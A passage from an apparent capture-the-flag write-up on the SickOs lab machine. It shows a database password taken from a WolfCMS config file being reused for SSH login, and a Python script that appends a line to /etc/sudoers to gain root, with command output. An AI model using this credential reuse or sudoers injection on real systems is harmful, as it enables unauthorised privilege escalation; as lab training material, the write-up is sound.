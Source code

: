 ## Another way to get root
I just traverse into the machine and found the config file of wolfcms at **/var/www/wolfcms/config.php** and it contained some credential.
```
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
```
I list directory in /home and found that there is user **sickos** so I tried to logon SSH with user sickos and password john@123 and it worked.
```
Welcome to Ubuntu 12.04.4 LTS (GNU/Linux 3.11.0-15-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Fri Mar  3 22:56:55 IST 2017

  System load:  0.0               Processes:           116
  Usage of /:   4.3% of 28.42GB   Users logged in:     0
  Memory usage: 13%               IP address for eth0: 192.168.159.131
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

124 packages can be updated.
92 updates are security updates.

New release '14.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Mar  3 22:51:58 2017 from 192.168.159.1
sickos@SickOs:~$ 
```

To get root I modified connect.py to allow sickos to use **sudo su** 
```
#!/usr/bin/env python
import os
import sys
try:
        os.system('echo "sickos ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```
I waited for a couple seconds.
```
sickos@SickOs:~$ sudo su
[sudo] password for sickos: 
root@SickOs:/home/sickos# id
uid=0(root) gid=0(root) groups=0(root)
root@SickOs:/home/sickos# 
```
I got root!!!

